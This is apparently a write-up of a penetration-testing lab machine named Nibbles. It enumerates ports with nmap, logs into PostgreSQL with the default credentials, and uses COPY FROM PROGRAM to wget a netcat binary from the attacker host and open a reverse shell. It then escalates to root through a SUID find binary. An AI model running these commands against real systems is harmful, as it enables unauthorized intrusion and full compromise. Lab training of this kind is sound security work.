 # Exploitation Guide for Nibbles
## Summary
We'll gain code execution on this machine via a misconfigured PostgreSQL database server which is listening on all interfaces and accepts the default credentials. We can then escalate via misconfigured SUID permissions on the /usr/bin/find binary.
Enumeration
Nmap

### Let's begin with a full nmap TCP port scan.
`sudo nmap -p- 192.168.234.140`

![6311676dc05520684e6e9262dd894681.png](../../../../_resources/6311676dc05520684e6e9262dd894681.png)

### A focussed scan identifies PostgreSQL running on port 5437.
`sudo nmap -p 5437 192.168.234.140 -A -sV -T4`

![a02ba6fb39f5b07a33f6b838cf7da781.png](../../../../_resources/a02ba6fb39f5b07a33f6b838cf7da781.png)

## Exploitation
### PostgreSQL Reverse Shell

Since the PostgreSQL server is listening on all interfaces, we can connect to it with psql. Since credentials are required, we begin password guessing and discover that the default credentials (postgres:postgres) are still active.

`psql -h 192.168.234.140 -p 5437 -U postgres`
![f9579c5c221c925c4aee16adf6fa5bf4.png](../../../../_resources/f9579c5c221c925c4aee16adf6fa5bf4.png)

In addition, the default PostgreSQL settings are also in place, which means we can easily grab a reverse shell. To do this, we'll first start a web server and host our copy of the Netcat binary.

### Find and host nc binary on kali:
```
which nc
cp /usr/bin/nc .
sudo python3 -m http.server 80
```
![870644268ac46124b13138d6ee553903.png](../../../../_resources/870644268ac46124b13138d6ee553903.png)

### Then, we'll set up a Netcat listener on port 5437.
`nc -lvp 5437`

After switching to the default postgres database, we can download the Netcat binary to the target and use it to connect back to our attack machine.

```
\c postgres;
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'wget http://192.168.234.30/nc';
DELETE FROM cmd_exec;
COPY cmd_exec FROM PROGRAM 'nc -n 192.168.234.30 5437 -e /usr/bin/bash';
```
![1556344d92fcf902797ba947b9d67438.png](../../../../_resources/1556344d92fcf902797ba947b9d67438.png)

Our listener caught a postgres shell:
![ecde8d1b6ef0788cca07cc47d94c6381.png](../../../../_resources/ecde8d1b6ef0788cca07cc47d94c6381.png)

## Escalation
### SUID

As part of our enumeration process, we use find to locate SUID programs and interestingly discover that the find program itself is SUID.

```
find / -perm -u=s -type f 2>/dev/null
<esql/11/main$ find / -perm -u=s -type f 2>/dev/null
```

We can easily abuse this misconfiguration to obtain a root shell.

`find . -exec /bin/sh -p \; -quit`
`whoami`
![e6d2ea39f7d0f20a7c9d18e20e110f25.png](../../../../_resources/e6d2ea39f7d0f20a7c9d18e20e110f25.png)

